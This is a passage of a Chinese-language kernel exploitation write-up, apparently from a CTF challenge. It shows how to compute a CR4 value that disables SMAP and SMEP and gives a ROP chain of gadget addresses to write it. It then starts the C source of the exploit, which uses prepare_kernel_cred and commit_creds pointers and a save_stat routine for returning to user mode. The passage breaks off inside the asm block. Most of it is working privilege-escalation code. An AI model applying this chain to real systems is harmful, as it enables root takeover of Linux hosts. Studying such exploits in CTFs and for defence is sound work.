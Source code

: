 很明显，在程序中 cr4 寄存器的值为如下值:  
`01100000000011011110000`  
需要将第 20、21 位置为 0，则变为如下值:  
`00000000000011011110000`  
该值转为 0x6f0，于是只需要搞个 rop 利用链将 cr4 的值赋值为 0x6f0 即可. 

```c
//修改 cr4 的值为 0x6f0 以关闭 SMAP、SMEP
buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
buf[i ++] = 0x6f0;
buf[i ++] = 0x10;
buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
buf[i ++] = 0x6f0;
buf[i ++] = 0;
buf[i ++] = 0xffffffff81003cf8;  // mov cr4,rax; pop rbp; ret;
buf[i ++] = 0;
buf[i ++] = &templine;
```

修改后的 cr4 寄存器如下所示，可以观察到已经关闭了 SMAP、SMEP

![qwb](/image/kernelpwn/2.png)  

### [](#header-3)EXP

```c
#define _GNU_SOURCE
#include <sys/mman.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <string.h>
#include <stdlib.h>
#include <arpa/inet.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/socket.h>

#define KERNCALL __attribute__((regparm(3)))

// cat /proc/kallsyms | grep "prepare_kernel_cred"
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xffffffff810779b0; // TODO:change it
// cat /proc/kallsyms | grep "commit_creds"
void (*commit_creds)(void*) KERNCALL = (void*) 0xffffffff81077620; // TODO:change it

unsigned long long user_cs, user_ss, user_rflags, user_sp;
unsigned long long base_addr, canary;

int fd;
int BUFF_SIZE = 96;

void save_stat() {
	asm(
		"movq %%cs, %0;"
		"movq %%ss, %1;"
		"movq %%rsp, %2;"
		"pushfq;"
		"popq %3;"
```